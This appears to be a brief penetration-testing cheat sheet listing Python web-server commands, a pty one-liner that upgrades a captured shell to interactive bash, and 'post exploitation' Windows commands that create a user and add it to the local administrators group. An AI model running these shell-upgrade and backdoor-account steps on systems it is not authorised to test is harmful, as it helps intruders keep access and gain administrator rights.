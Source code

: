 
### Simple Web Servers

python3 -m http.server

python -m SimpleHTTPServer 80


### Shell Upgrade!

python -c "import pty; pty.spawn('/bin/bash')"


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add
> net localgroup administrators gary /add

